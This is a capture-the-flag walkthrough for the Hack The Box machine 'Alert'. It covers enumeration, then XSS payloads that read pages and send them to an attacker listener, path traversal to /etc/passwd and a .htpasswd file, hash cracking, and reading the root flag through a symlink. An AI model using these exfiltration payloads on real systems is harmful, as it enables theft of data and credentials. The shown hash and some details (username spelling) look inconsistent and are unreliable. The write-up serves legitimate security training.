


# Alert

## Description

Alert is a linux machine on [Hack The Box](https://app.hackthebox.com/machines/Alert). The machine is rated as easy and is a great way to learn about XSS, path traversal, and symlink attacks.

## Walkthrough

### Enumeration

As usual, we start by enumerating the services running on the machine.

```bash
└─$ nmap -sC -sV 10.10.11.44
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-07 18:54 CET
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing
Nmap scan report for 10.10.11.44
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.75 seconds
```

We have an SSH service running on port 22 and an Apache service running on port 80. When we try to connect to the ssh service, we are prompted for a password. Let's try to connect to the web service.

When we connect to the web service, we are redirected to `http://alert.htb/`, but we are unable to connect to the service.

I will add the domain to the `/etc/hosts` file to see if we can connect to the service.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ echo "10.10.11.44 alert.htb" | sudo tee -a /etc/hosts

[sudo] password for cherif: 
10.10.11.44 alert.htb
```

Now, when we try to connect to the service, we are redirected to a markdown viewer.


### Fuzzing

Let's try to fuzz the markdown viewer to see if we can find any vulnerabilities.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u "http://alert.htb/FUZZ" -ac               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 2303ms]
    * FUZZ: css

[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1574ms]
    * FUZZ: messages
```

The messages directory seems interesting, but we are not allowed to access it.
We will keep this in mind for later.

I will try to find other directories that we can access that are related to messages and file uploads.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u "http://alert.htb/FUZZ" -ac 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 2177ms]
    * FUZZ: index.php

[Status: 200, Size: 24, Words: 3, Lines: 2, Duration: 367ms]
    * FUZZ: contact.php

[Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 210ms]
    * FUZZ: .

[Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 79ms]
    * FUZZ: messages.php
```

Bingo! messages.php seems interesting.

### Exploitation

The markdown viewer allows us to view markdown files. We can use this to read files on the server. But first, let's see if it is vulnerable to any kind of injection.

#### XSS

Let's create a simple markdown file with an XSS payload.

```markdown
<script>

    alert("XSS");

</script>
```

When we try to view the file, we get an alert box with the message "XSS".



The markdown viewer is vulnerable to XSS. We can use this to execute arbitrary JavaScript code on the server.

#### Payload creation

The thig to notice is that we can share the link to the markdown file. This means that we can create a payload that will execute when the file is viewed.

Let's create a payload that will steal the content of the web page and send it the administator. We can use this method to view the messages page that we found earlier.

```markdown
<script>
  var url = "http://alert.htb/index.php?page=messages"
  var attacker = "http://<<your-ip>>:4444/exfil"
  var xhr = new XMLHttpRequest()
  xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE) {
      fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
  }
  xhr.open("GET", url, true)
  xhr.send(null)
</script>
```

#### Payload execution

After uploading the payload, we can share the link to the file, copy the link, and send it to the administrator via the contact form.

Open a listener on your machine.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ nc -lvnp 4444          
listening on [any] 4444 ...
connect to [10.10.16.70] from (UNKNOWN) [10.10.11.44] 38226
GET /exfil?PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImNzcy9zdHlsZS5jc3MiPgogICAgPHRpdGxlPkFsZXJ0IC0gTWFya2Rvd24gVmlld2VyPC90aXRsZT4KPC9oZWFkPgo8Ym9keT4KICAgIDxuYXY+CiAgICAgICAgPGEgaHJlZj0iaW5kZXgucGhwP3BhZ2U9YWxlcnQiPk1hcmtkb3duIFZpZXdlcjwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1jb250YWN0Ij5Db250YWN0IFVzPC9hPgogICAgICAgIDxhIGhyZWY9ImluZGV4LnBocD9wYWdlPWFib3V0Ij5BYm91dCBVczwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1kb25hdGUiPkRvbmF0ZTwvYT4KICAgICAgICA8YSBocmVmPSJpbmRleC5waHA/cGFnZT1tZXNzYWdlcyI+TWVzc2FnZXM8L2E+ICAgIDwvbmF2PgogICAgPGRpdiBjbGFzcz0iY29udGFpbmVyIj4KICAgICAgICA8aDE+TWVzc2FnZXM8L2gxPjx1bD48bGk+PGEgaHJlZj0nbWVzc2FnZXMucGhwP2ZpbGU9MjAyNC0wMy0xMF8xNS00OC0zNC50eHQnPjIwMjQtMDMtMTBfMTUtNDgtMzQudHh0PC9hPjwvbGk+PC91bD4KICAgIDwvZGl2PgogICAgPGZvb3Rlcj4KICAgICAgICA8cCBzdHlsZT0iY29sb3I6IGJsYWNrOyI+qSAyMDI0IEFsZXJ0LiBBbGwgcmlnaHRzIHJlc2VydmVkLjwvcD4KICAgIDwvZm9vdGVyPgo8L2JvZHk+CjwvaHRtbD4KCg== HTTP/1.1
Host: 10.10.16.70:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```

We can see that the content of the page is sent to our machine. Let's decode it using [CyberChef](https://gchq.github.io/CyberChef/).


We can try to open the file using `messages.php?file=`, but the file is empty. At least we know that we can read files on the server.

#### Path traversal

Let's change the payload to read the `/etc/passwd` file.

```markdown
<script>
    var url = "messages.php?file=../../../../../../../etc/passwd"
    var attacker = "http://<<your-ip>>:9001/exfil"
    var xhr = new XMLHttpRequest()
    xhr.onreadystatechange = function () {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
      }
    }
    xhr.open("GET", url, true)
    xhr.send(null)
</script>
```

After uploading the payload, we can share the link to the file, copy the link, and send it to the administrator via the contact form (as before).

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.70] from (UNKNOWN) [10.10.11.44] 33100
GET /exfil?PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2JpbjovdXNyL3NiaW4vbm9sb2dpbgpzeXM6eDozOjM6c3lzOi9kZXY6L3Vzci9zYmluL25vbG9naW4Kc3luYzp4OjQ6NjU1MzQ6c3luYzovYmluOi9iaW4vc3luYwpnYW1lczp4OjU6NjA6Z2FtZXM6L3Vzci9nYW1lczovdXNyL3NiaW4vbm9sb2dpbgptYW46eDo2OjEyOm1hbjovdmFyL2NhY2hlL21hbjovdXNyL3NiaW4vbm9sb2dpbgpscDp4Ojc6NzpscDovdmFyL3Nwb29sL2xwZDovdXNyL3NiaW4vbm9sb2dpbgptYWlsOng6ODo4Om1haWw6L3Zhci9tYWlsOi91c3Ivc2Jpbi9ub2xvZ2luCm5ld3M6eDo5Ojk6bmV3czovdmFyL3Nwb29sL25ld3M6L3Vzci9zYmluL25vbG9naW4KdXVjcDp4OjEwOjEwOnV1Y3A6L3Zhci9zcG9vbC91dWNwOi91c3Ivc2Jpbi9ub2xvZ2luCnByb3h5Ong6MTM6MTM6cHJveHk6L2JpbjovdXNyL3NiaW4vbm9sb2dpbgp3d3ctZGF0YTp4OjMzOjMzOnd3dy1kYXRhOi92YXIvd3d3Oi91c3Ivc2Jpbi9ub2xvZ2luCmJhY2t1cDp4OjM0OjM0OmJhY2t1cDovdmFyL2JhY2t1cHM6L3Vzci9zYmluL25vbG9naW4KbGlzdDp4OjM4OjM4Ok1haWxpbmcgTGlzdCBNYW5hZ2VyOi92YXIvbGlzdDovdXNyL3NiaW4vbm9sb2dpbgppcmM6eDozOTozOTppcmNkOi92YXIvcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1uZXR3b3JrOng6MTAwOjEwMjpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4Kc3lzdGVtZC1yZXNvbHZlOng6MTAxOjEwMzpzeXN0ZW1kIFJlc29sdmVyLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLXRpbWVzeW5jOng6MTAyOjEwNDpzeXN0ZW1kIFRpbWUgU3luY2hyb25pemF0aW9uLCwsOi9ydW4vc3lzdGVtZDovdXNyL3NiaW4vbm9sb2dpbgptZXNzYWdlYnVzOng6MTAzOjEwNjo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c2xvZzp4OjEwNDoxMTA6Oi9ob21lL3N5c2xvZzovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA1OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KdHNzOng6MTA2OjExMTpUUE0gc29mdHdhcmUgc3RhY2ssLCw6L3Zhci9saWIvdHBtOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDc6MTEyOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCnRjcGR1bXA6eDoxMDg6MTEzOjovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbGFuZHNjYXBlOng6MTA5OjExNTo6L3Zhci9saWIvbGFuZHNjYXBlOi91c3Ivc2Jpbi9ub2xvZ2luCnBvbGxpbmF0ZTp4OjExMDoxOjovdmFyL2NhY2hlL3BvbGxpbmF0ZTovYmluL2ZhbHNlCmZ3dXBkLXJlZnJlc2g6eDoxMTE6MTE2OmZ3dXBkLXJlZnJlc2ggdXNlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KdXNibXV4Ong6MTEyOjQ2OnVzYm11eCBkYWVtb24sLCw6L3Zhci9saWIvdXNibXV4Oi91c3Ivc2Jpbi9ub2xvZ2luCnNzaGQ6eDoxMTM6NjU1MzQ6Oi9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk5Ojk5OTpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KYWxiZXJ0Ong6MTAwMDoxMDAwOmFsYmVydDovaG9tZS9hbGJlcnQ6L2Jpbi9iYXNoCmx4ZDp4Ojk5ODoxMDA6Oi92YXIvc25hcC9seGQvY29tbW9uL2x4ZDovYmluL2ZhbHNlCmRhdmlkOng6MTAwMToxMDAyOiwsLDovaG9tZS9kYXZpZDovYmluL2Jhc2gKPC9wcmU+Cg== HTTP/1.1
Host: 10.10.16.70:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```

And we use [CyberChef](https://gchq.github.io/CyberChef/) again!


The only intresting user is one called `allbert`. The only problem is that we don't have the password for this user.

Let's travel to `etc/hosts` to try to find some more information about the domain. We can use the same payload as before.

Add `statistics.alert.htb` to the `/etc/hosts` file.


#### Finding the password

According to [apache.porg](https://httpd.apache.org/docs/2.4/programs/htpasswd.html) and [digitalocean.com](https://www.digitalocean.com/community/tutorials/how-to-set-up-password-authentication-with-apache-on-ubuntu-20-04), the passwords are stored in `/var/www/your_domain/.htpasswd`: *htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.*

Let's try to read the `.htpasswd` file.

```markdown
<script>
  var url = "messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd"
  var attacker = "http://10.10.16.70:4444/exfil"
  var xhr = new XMLHttpRequest()
  xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE) {
      fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
  }
  xhr.open("GET", url, true)
  xhr.send(null)
</script>
```

Send the link to the administrator. We can see that the password for the `allbert` user is hashed.

Let's try to crack the password using `hashcat`.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ echo "$apr1$1Z6Q7Q7W$3Z6Q7Q7W1Z6Q7Q7W1Z6Q7Q7W1Z6Q7Q7W/" > hash.txt

┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

- `-m 1600` specifies the hash type.
- `hash.txt` is the file containing the hash.
- `/usr/share/wordlists/rockyou.txt` is the wordlist.
- `--force` is used to force CPU cracking if needed.

We have the password!



### SSH

Let's try to connect to the machine using the credentials we found.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ ssh albert@10.10.11.44
```

We are in! And we have the user flag.

### Root flag

Let's check the sudo permissions.

```bash
albert@alert:~$ sudo -l
[sudo] password for albert: 
Sorry, user albert may not run sudo on alert.
```

We unfotunately don't have sudo permissions. After some annoying research, I tryed to check lolcal ports.

```bash
albert@alert:~$ ss -lntp
State                       Recv-Q                      Send-Q                                           Local Address:Port                                             Peer Address:Port                 
LISTEN                      0                           4096                                             127.0.0.53%lo:53                                                    0.0.0.0:*                                                      
LISTEN                      0                           128                                                    0.0.0.0:22                                                    0.0.0.0:*                                                      
LISTEN                      0                           4096                                                 127.0.0.1:8080                                                  0.0.0.0:*                                                      
LISTEN                      0                           128                                                       [::]:22                                                       [::]:*                                                      
LISTEN                      0                           511                                                          *:80                                                          *:*
```

Port 8080 is open on the local machine. Let's try to list all running processes on it.

```bash
albert@alert:~$ ps aux | grep 8080
root        1012  0.0  0.6 207256 26440 ?        Ss   02:16   0:01 /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
albert    113387  0.0  0.0   6432   656 pts/0    S+   16:10   0:00 grep --color=auto 8080
```

Something intresting is running as root. Let's try to access it.

#### Port forwarding

To access the service running on port 8080, we can use port forwarding.

```bash
┌──(cherif㉿kali)-[~/Desktop/HTB/machines/Alert]
└─$ ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
```

- -L: Specifies the port forwarding.
- 8080: The port on the local machine.

Now, we can access the service running on port 8080 on the remote machine.


The website monitor allows us to monitor websites.

#### Exploration

Knowing that the service is running as root, we can try to exploit it.
Let's check the opt/website-monitor directory.

```bash
albert@alert:/opt/website-monitor/monitors$ ls -la /opt/website-monitor
total 96
drwxrwxr-x 7 root root        4096 Oct 12 01:07 .
drwxr-xr-x 4 root root        4096 Oct 12 00:58 ..
drwxrwxr-x 2 root management  4096 Feb  8 13:38 config
drwxrwxr-x 8 root root        4096 Oct 12 00:58 .git
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

```bash
albert@alert:/opt/website-monitor$ cd monitors
albert@alert:/opt/website-monitor/monitors$ ls -la
total 24
drwxrwxrwx 2 root root 4096 Oct 12 01:07 .
drwxrwxr-x 7 root root 4096 Oct 12 01:07 ..
-rw-r--r-x 1 root root 5574 Feb  8 16:22 alert.htb
-rw-r--r-x 1 root root 5572 Feb  8 16:22 statistics.alert.htb
```

Using the web app, we can read the content of the files in the monitors directory.
Remember that the service is running as root, so we can use this to read the root flag.

The first idea that comes to mind is to create a reverse shell and upload it to the server, but we there is a simpler way to do this.
We will create a symlink in the monitors directories of the root/root.txt file: symlink is a file that contains a reference to another file or directory in the form of an absolute or relative path (a sort of pointer).

```bash
albert@alert:/opt/website-monitor/monitors$ ln -s /root/root.txt root.txt
```

- `ln` is used to create a link.
- `-s` is used to create a symbolic link.
- `/root/root.txt` is the file we want to link to.
- `root.txt` is the name of the link.

Now, we can read the content of the root.txt file using the web app.

```bash
┌──(cherif㉿kali)-[~]
└─$ curl http://127.0.0.1:8080/monitors/root.txt
```

And we have the root flag!

## Conclusion

This was a fun machine. It combined a lot of different techniques, such as XSS, path traversal, and symlink attacks. More than that, it was a good reminder that sometimes the simplest solution is the best one, and that we always have many ways to achieve our goals.
Hope you enjoyed the writeup. Stay safe and happy hacking! 🚀🚀🚀

## Useful resources

- [CyberChef](https://gchq.github.io/CyberChef/)
- [hashcat](https://hashcat.net/hashcat/)
- [apache.porg](https://httpd.apache.org/docs/2.4/programs/htpasswd.html)
- [digitalocean.com](https://www.digitalocean.com/community/tutorials/how-to-set-up-password-authentication-with-apache-on-ubuntu-20-04)
- [Symlink](https://en.wikipedia.org/wiki/Symbolic_link)

## Contact

This Walkthrough was created by Cherif Jebali. You can sens me an email at [cherifjebali0301@gmail.com](mailto:cherifjebali0301@gmail.com).

